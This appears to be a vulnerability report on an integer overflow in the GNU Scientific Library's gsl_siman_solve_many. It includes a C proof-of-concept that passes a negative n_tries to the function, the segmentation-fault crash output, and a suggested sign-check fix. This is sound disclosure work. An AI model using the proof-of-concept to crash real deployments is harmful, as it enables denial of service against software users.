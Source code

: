 ### Vulnerability Details:
#### Type of vulnerability: 
Integer Overflow

#### Location: 
function `gsl_siman_solve_many` in file  `gsl/siman/siman.c`

#### Description: 
The vulnerability occurs when `params.n_tries` is set to a negative integer, which leads to incorrect memory allocation in the following lines of code:

```
 x = (void *) malloc (params.n_tries * element_size);
 new_x = (void *) malloc (params.n_tries * element_size);
 energies = (double *) malloc (params.n_tries * sizeof (double));
 probs = (double *) malloc (params.n_tries * sizeof (double));
 sum_probs = (double *) malloc (params.n_tries * sizeof (double));
 …
 memcpy (x, x0_p, element_size);
 ```

### Steps to Reproduce:
Here is a minimal code example that demonstrates the vulnerability:
```
   #include <gsl/gsl_siman.h>
   #include <gsl/gsl_rng.h>
   #include <gsl/gsl_vector.h>
   double objective_function(void *xp) {
       return 0.0;
   }
   void take_step(const gsl_rng *r, void *xp, double step_size) {
   }


   int main(void) {
       gsl_rng *r;
       gsl_rng_env_setup();
       r = gsl_rng_alloc(gsl_rng_default);
       // Initialize GSL Simulated Annealing parameters
       gsl_siman_params_t p;
       p.n_tries = -1;// Integer overflow vulnerability: invalid number of trials
       gsl_vector *x0 = gsl_vector_alloc(1);
       // Call the simulated annealing solver (this is the key call for the vulnerability)
       gsl_siman_solve_many(r, x0, objective_function, take_step, NULL, NULL, sizeof(gsl_vector), p);
       return 0;
   }
```
To compile and run the above code:
```
   $ gcc test.c -o test -lgsl
   $ catchsegv ./test
   Segmentation fault (core dumped)
   *** signal 11
   Register dump:
   RAX: 0000000000000000   RBX: fffffffffffffff8  …
   Trap: 0000000e   Error: 00000006   OldMask: 00000000   CR2: 00000000
   …
   Backtrace:
   /lib/x86_64-linux-gnu/libc.so.6(+0x1a07e1)[0x752cfd3a07e1]
   /lib/x86_64-linux-gnu/libgsl.so.27(gsl_siman_solve_many+0x10d)[0x752cfd749aed]
   ./test(+0x125b)[0x5d80a762525b]
   /lib/x86_64-linux-gnu/libc.so.6(+0x29d90)[0x752cfd229d90]
   /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0x80)[0x752cfd229e40]
   ./test(+0x10e5)[0x5d80a76250e5]

```

### Suggested Fix:
This issue could be mitigated by adding a sign check before allocating memory. For example:
```
   if (0 <= params.n_tries) {
   x = (void *) malloc (params.n_tries * element_size);
}
```
